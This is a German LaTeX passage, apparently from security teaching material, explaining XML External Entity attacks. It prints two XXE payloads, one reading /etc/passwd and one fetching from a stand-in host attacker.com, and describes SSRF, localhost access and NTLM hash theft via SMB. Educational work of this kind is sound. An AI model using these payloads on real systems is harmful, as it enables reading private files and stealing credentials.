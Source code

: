 Ein Beispiel für einen XML External Entities Angriff der auf die Extraktion lokaler Daten zielt:

\begin{verbatim}
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
\end{verbatim}

Bei diesem Beispiel wird ein neues Element (\textit{foo}), und als möglicher Wert für dieses Element die externe Datenquelle /etc/passwd als Referenz \textit{\&xxe} definiert. Anschließend wird dieser Elementtyp auch sofort samt der Referenz verwendet. Erlaubt ein Server das Parsen dieses XML-Dokumentes würde er nun diese Datei auslesen, deren Inhalt in das XML Dokument einfügen und ggf. das ausgefüllte Dokument an den Client zurückgeben. Somit kann der Angreifer auf eine Datei, auf die er eigentlich keinen Zugriff besitzen sollte mit den Rechten des Applikationsservers zugreifen.

Ebenso kann auf eine Netzwerkadresse verwiesen werden:

\begin{verbatim}
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >
]>
<foo>&xxe;</foo>
\end{verbatim}

In diesem Beispiel kann der Angreifer den XML-verarbeitenden Server dazu bringen, mittels HTTP GET auf die übergebene URL (\url{http://www.attacker.com/text.txt}) zuzugreifen. Dadurch ergeben sich mehrere Angriffsmöglichkeiten:

\begin{itemize}
	\item Der Angreifer kann den Webserver zum ``Besuch'' einer Webseite bringen, bei diesem Besuch wird zumeist auch die öffentliche IP-Adresse des Webservers auf dem besuchten Webserver vermerkt. Bei Inhalten die z. B. gegen das Verbotsgesetz verstoßen kann dies negative Publicity für den Betreiber des XML-verarbeitenden Webservers bewirken.
	\item Da der Zugriff vom XML-verarbeitenden Server ausgeht, kann der Angreifer einen HTTP GET Request auf interne Server absetzen, die ansonsten durch eine initiale Firewall blockiert gewesen wären.
	\item Der Angreifer kann ebenso auf \textit{localhost}, sprich dem eigenen Server, zugreifen. Häufig werden interne Administrationsprogramme so konfiguriert, dass diese nur auf Localhost lauschen (als Sicherheitsmassname um remote Angreifern den Zugriff zu unterbinden). Im Zuge eines XML External Entity basierten Angriffs kann ein Angreifer diesen Schutz aushebeln und direkt auf localhost zugreifen.
	\item Bei einigen Protokollen (http, smb, cifs) werden automatisch Tokens und Credentials vom XML-verarbeitenden Server aus zum Zielserver verschickt. Ein Angreifer kann dies z. B. missbrauchen um bei einem Windows-basierten Server via SMB NTLM-Hashes zu extrahieren und gegen diese offline einen Brute-Force Angriff durchzuführen.
\end{itemize}

